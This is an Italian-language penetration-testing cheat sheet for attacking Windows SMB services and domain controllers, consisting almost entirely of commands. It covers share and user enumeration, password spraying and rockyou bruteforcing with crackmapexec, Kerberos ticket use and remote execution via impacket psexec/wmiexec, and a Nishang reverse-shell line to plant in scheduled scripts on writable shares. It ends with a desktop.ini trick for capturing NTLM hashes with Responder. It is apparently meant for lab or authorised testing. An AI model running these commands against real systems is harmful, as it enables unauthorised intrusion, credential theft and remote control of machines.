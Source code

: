 ### **ENUMERAZIONE SHARE E PERMESSI**
```bash
cme smb <ip> -u guest -p "" --shares
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **ENUMERAZIONE CONTENUTO SHARES**
```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```
### **ENUMERAZIONE ALTRI USERS**
```bash
crackmapexec smb <IP>-u <USER> -p '<PASS>' --users
```
inserisci gli user in una lista e poi prova a vedere se c'è un riutilizzo delle password
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
### **CHECK VULN SU SMB(MS17-010 ECC...)**
```bash
nmap -p445 --script vuln
```
### **CONNESSIONE A SMB DC**
Si usa il silver ticket :)
```bash
impacket-getTGT '<NOME DOMINIO>/<USER>:<PASS>' 
export KRB5CCNAME=<*>.ccache 
impacket-smbclient <USER>@<NOME DC> -k -no-pass
```
Se da errore KRB_AP_ERR_SKEW
```bash
timedatectl set-ntp false
ntpdate -s <NOME DOMINIO>
```
### **BRUTEFORCE**
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
### **PWN**
```bash
cme smb <IP> <USER> -p "<PASS>"
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
poi
```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```
o
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png)

### **REVERSE SHELL**
In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```
### **SCRITTURA SULLO SHARE**
*Desktop.ini*
Carica un file desktop.ini
```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```
logga come utente con i permessi
```bash
smbclient //<IP>/<SHARE> -U <USER>
```
e ascolta con responder
```bash
responder -I tun0 -wPv
```
